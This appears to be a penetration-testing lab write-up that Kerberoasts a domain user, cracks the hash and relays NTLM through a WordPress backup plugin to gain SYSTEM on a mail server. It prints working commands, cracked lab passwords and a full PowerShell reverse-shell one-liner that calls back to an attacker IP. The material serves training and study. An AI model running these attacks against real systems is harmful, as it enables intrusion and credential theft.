






---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Attacking an Internal Web Application

Based on the information from the [previous section](pivoting-to-the-internal-network.md#examining-the-internal-web-application), the web application on `INTERNALSRV1` is the most promising target at the moment. Because it is a WordPress site, one could use [WPScan](../web-application-attacks/enumeration.md#wpscan) again or use password attacks to successfully log in to WordPress's dashboard.

Every time new information is obtained it is worth reevaluating what is already known and putting it in context. In this situation that means thinking about the fact that the user `daniela` was found to [have an SPN](pivoting-to-the-internal-network.md#service-principal-names) seemingly associated with `INTERNALSRV1` and that the user is [Kerberoastable](pivoting-to-the-internal-network.md#kerberoastable-users). That makes it fairly likely `daniela` can log in to the admin portal of the web application on `INTERNALSRV1`. Thus obtaining her credentials will be the next priority.

## Kerberoasting

The attacker will use previously covered [Kerberoasting methods](../windows/active-directory/authentication/attacking-ad-authentication/kerberoasting.md#impacket) over the SOCKS proxy set up with Metasploit and Proxychains in the [last section](pivoting-to-the-internal-network.md#establishing-a-port-forward).&#x20;

### Obtaining the Hash

The hash will be obtained using the `impacket-GetUserSPNs` command as seen in the [previously linked example](../windows/active-directory/authentication/attacking-ad-authentication/kerberoasting.md#impacket). The command will be run with the `john` credentials:


```bash
impacket-GetUserSPNs -request -outputfile hashes.kerberoast -dc-ip 172.16.177.240 beyond.com/john
```


This is then paired with `proxychains` and the `-q` flag:


```bash
proxychains -q impacket-GetUserSPNs -request -outputfile hashes.kerberoast -dc-ip 172.16.177.240 beyond.com/john
```


```shell-session
kali@kali:~/beyond$ proxychains -q impacket-GetUserSPNs -request -outputfile hashes.kerberoast -dc-ip 172.16.177.240 beyond.com/john
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  -------  --------  --------------------------  --------------------------  ----------
http/internalsrv1.beyond.com  daniela            2022-09-29 02:17:20.062328  2022-10-05 01:59:48.376728            
```

The `daniela` hash was successfully retrieved:


```
$krb5tgs$23$*daniela$BEYOND.COM$beyond.com/daniela*$71b130dfadd3356...5398a524e6706c0f7b0c23b055879989cfbe9d8282f419add7de9fd8471b641efa39a8e9b3fabaf3cc432c48def799282a62
```


### Cracking the Hash

Hashcat can be used to crack the hash as seen [here](../windows/active-directory/authentication/attacking-ad-authentication/kerberoasting.md#cracking-the-hash). The `rockyou` wordlist will be used and paired with the `best64.rule` file:


```bash
hashcat -m 13100 -r /usr/share/hashcat/rules/best64.rule -o cracked.kerberoast hashes.kerberoast /usr/share/wordlists/rockyou.txt
```



```
$krb5tgs$23$*daniela$BEYOND.COM$beyond.com/daniela*$71b130dfadd33562adfecb180f265f20$0991dfbfac8cf82f55ba291264a92aac96f1b0957a1815b588f430e32b42e902679f761327dd790740325c00ad2fdd3aabbf17d7be1250b6b3298d323c4bf9a82d2...ef799282a62:DANIelaRO123
```


Another entry for the `creds.txt` file:


```
id_rsa.daniela:tequieromucho    (SSH key password)
wordpress:DanielKeyboard3311    (Wordpress DB connections settings)
john:dqsTwTpZPn#nL              (found in fetch_current.sh via git show)
daniela:DANIelaRO123            (Kerberoasted)
```


Keep in mind John the Ripper could also have been used to crack the hash:


```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 hashes.kerberoast
```


```shell-session
kali@kali:~/beyond$ john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 hashes.kerberoast 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
DANIelaRO123     (?)     
...
Session completed.
```

## Enumerating WordPress

It is now time to test whether the hunch of `daniela`'s credentials working on `INTERNALSRV1`'s WordPress admin panel is correct. Fortunately it was:

<figure><figcaption><p>WordPress admin panel as seen from daniela's account</p></figcaption></figure>

### Configured Users

First the attacker checks configured users:

<figure><figcaption><p>All configured users</p></figcaption></figure>

They find only `daniela`.

### General Settings

Next the attacker navigates over to the `Settings > General` page:

<figure><figcaption><p>General Settings page</p></figcaption></figure>

As suspected the `WordPress Address` and `Site Address` fields are DNS names (as opposed to IPs). This is why the modifications to `/etc/hosts` was necessary for Chisel to work properly with the redirects.

### Installed Plugins

Next the attacker wants to check the plugins that are installed:

<figure><figcaption><p>All plugins</p></figcaption></figure>

There are 3 plugins total but only one, [`Backup Migration`](https://wordpress.org/plugins/backup-backup/), is enabled.

#### Backup Migration

Since `Backup Migration` is the only enabled plugin the attacker checks it out by clicking Manage. This takes them to the plugin config page. Clicking through the menus the attacker finds the location of backups on the server:

<figure><figcaption><p>Backup Path</p></figcaption></figure>

This is interesting because the path is editable. Perhaps a path could be placed here that would force authentication of the underlying system.

### Potential Vectors

Now that the site has been enumerated a bit the attacker should pause and evaluate their options. As it stands there seem to be 2 potential attack vectors:

The first is to try to upload a malicious WordPress plugin to `INTERNALSRV1`. By preparing and uploading a web shell or reverse shell, one may be able to obtain code execution on the underlying system.

The second is a bit more complex. [Recall](pivoting-to-the-internal-network.md#user-sessions) from the BloodHound output the attacker saw an active session on the `INTERNALSRV1` machine:

<figure><figcaption><p>Sessions found with BloodHound</p></figcaption></figure>

The session's user is displayed as an SID. It was noted that BloodHound uses this representation of a principal when the domain identifier portion of the SID is from a local machine. For this session, this means that the local `Administrator` (indicated by RID `500`) has an active session on `INTERNALSRV1`. With this in mind, one can make the assumption that the local `Administrator` is used to run the WordPress instance.

Furthermore, it's not uncommon that the local `Administrator` accounts across computers in a domain are set up with the same password. For now it will also be assumed that this is true in the current network.

The other piece of relevant information is that `beccy` (who is a Domain Admin) has a session on `MAILSRV1` (see BloodHound output above). As found in the [password spraying attempt](pivoting-to-the-internal-network.md#credential-spray-via-proxychains), `MAILSRV1` has SMB signing disabled:

<figure><figcaption><p>Results of password spray with CrackMapExec</p></figcaption></figure>

Note `(signing:False)` for MAILSRV1 in the output above. Because of this, a relay attack is possible if authentication can be forced. As noted [above](attacking-an-internal-web-application.md#backup-migration), perhaps the `Backup Directory Path` of the WordPress `Backup Migration` plugin could be abused to force this authentication.

## Relay Attack via WordPress Plugin

### Attack Plan

First, the attacker will attempt to force an authentication request by abusing the `Backup directory path` of the `Backup Migration` WordPress plugin on `INTERNALSRV1`. By setting the destination path to their Kali machine, they can use [`impacket-ntlmrelayx`](https://www.kali.org/tools/impacket-scripts/) to relay the incoming connection to `MAILSRV1`.

If the attacker's assumptions are correct, the authentication request is made in the context of the local `Administrator` account on `INTERNALSRV1`, which has the same password as the local `Administrator` account on `MAILSRV1`.

If this attack is successful, they will obtain privileged code execution on `MAILSRV1`, which can then be leveraged to extract the NTLM hash for `beccy` and therefore, meet one of the primary goals of the penetration test scenario.

### Configuring the Relay

The technique shown in [this example](../password-attacks/password-cracking-fundamentals/working-with-ntlm-hashes/relaying-net-ntlmv2.md#example), using `impacket-ntlmrelayx`, will be leveraged to relay an NTLMv2 hash from `INTERNALSRV1` to `MAILSRV1` via SMB. The ntlmrelayx command requires a command that will be run on the machine as a parameter. The logical thing to do would be to create another reverse shell session using a PowerShell one-liner:


```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.243',8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


This should then be Base64 encoded and attached to a `powershell` call with the -enc flag. Fortunately, [`Move-AD.psm1`](https://github.com/alex-christine/OSCP\_Exercises/blob/main/Utilities/Tools/Move-AD.psm1)'s `Get-EncodedShellCommand` can actually do all of this for the user:


```powershell
PS> Import-Module ./Move-AD.psm1

PS> Get-EncodedShellCommand "192.168.45.243" 8000 -EntireCommand
powershell.exe -nop -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlA...BDAGwAbwBzAGUAKAApAA==
```


The encoded reverse shell launcher is then included with the `impacket-ntlmrelayx` command as seen below:


```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.236.242 -c "powershell.exe -nop -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8A...BDAGwAbwBzAGUAKAApAA=="
```


* `--no-http-server` disables the HTTP server
* `-smb2support` enables SMBv2
* `-t` sets the target address for the relay (`MAILSRV1`)
* `-c` passes the encoded PowerShell command

Once this command is run it creates a listener waiting for incoming SMB connections to relay:

```shell-session
kali@kali:~/beyond$ sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.236.242 -c "powershell.exe -nop -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADIANAAzACIALAA4ADAAMAAwACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
...
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

### Forcing Authentication

The attacker is now ready to force `INTERNALSRV1` to attempt authentication to their Kali machine which is set up to relay the authentication request to `MAILSRV1`.

#### Starting the Listener

First the attacker must start a listener for the reverse shell on the correct port (`8000` in the example):

```bash
rlwrap nc -lnvp 8000
```

#### Authentication

The attacker can now navigate to the configuration portal of the `Backup Manager` plugin. By setting the Backup directory path to `//192.168.45.243/test` will force the authentication. `192.168.45.243` is the attacker's machine IP and `/test` is just an arbitrary non-existent path.&#x20;

<figure><figcaption><p>Updated Backup directory path value</p></figcaption></figure>

Once the configuration changes are saved some activity is seen on the `ntlmrelayx` listener

```shell-session
kali@kali:~/beyond$ sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.236.242 -c "powershell.exe -nop -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADIANAAzACIALAA4ADAAMAAwACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Protocol Client SMB loaded..
...
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-4 (process_request_thread): Received connection from 192.168.236.242, attacking target smb://192.168.236.242
[*] Authenticating against smb://192.168.236.242 as INTERNALSRV1/ADMINISTRATOR SUCCEED
...
[*] Executed specified command on host: 192.168.236.242
...
[*] Stopping service RemoteRegistry
```

A moment later, the Netcat listener receives and incoming connection:

```shell-session
kali@kali:~/beyond$ rlwrap nc -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.45.243] from (UNKNOWN) [192.168.236.242] 52492

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> hostname
MAILSRV1                                                  
PS C:\Windows\system32> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384
```

The attacker has successfully gained local `Administrator` access to `MAILSRV1`!
